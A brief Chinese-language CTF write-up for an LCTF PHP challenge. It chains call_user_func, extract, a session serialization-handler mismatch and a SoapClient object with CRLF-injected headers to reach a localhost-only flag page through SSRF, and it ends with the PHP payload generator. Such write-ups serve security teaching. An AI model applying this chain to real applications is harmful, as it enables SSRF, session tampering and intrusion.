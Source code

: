 给了我们两个call_user_func

第一个完全可控,第二个部分可控,我们可以利用extract来修改$b







flag.php

```php

session_start();
echo 'only localhost can get flag!';
$flag = 'LCTF{*************************}';
if($_SERVER["REMOTE_ADDR"]==="127.0.0.1"){
       $_SESSION['flag'] = $flag;
   }

```





这里要本地访问才能拿到flag,刚开始以为是http走私后来发现不太行



这里我们要利用ssrf来拿到flag,但是我们没有ssrf的点

但是这里又有session,于是想到session反序列化引擎配置错误+soap来进行ssrf

但是soap需要调用`__call`函数

我们可以在php官网上看到

```php
<?php

namespace Foobar;

class Foo {
    static public function test() {
        print "Hello world!\n";
    }
}

call_user_func(__NAMESPACE__ .'\Foo::test'); // As of PHP 5.3.0
call_user_func(array(__NAMESPACE__ .'\Foo', 'test')); // As of PHP 5.3.0

?> 
```

于是演员都就位了

```php
<?php

$location = 'http://127.0.0.1/flag.php';
$a = new SoapClient(null, array('location' => $location ,'uri'  => $location,'user_agent'=>"111\r\nCookie: PHPSESSID=polh31264nsj4pc620uv0n2go5"));#,'user_agent'=>"111\r\nCookie: PHPSESSID=3e87aecc0fuqg5v6uap8i92i06"
echo urlencode("|".serialize($a));
```
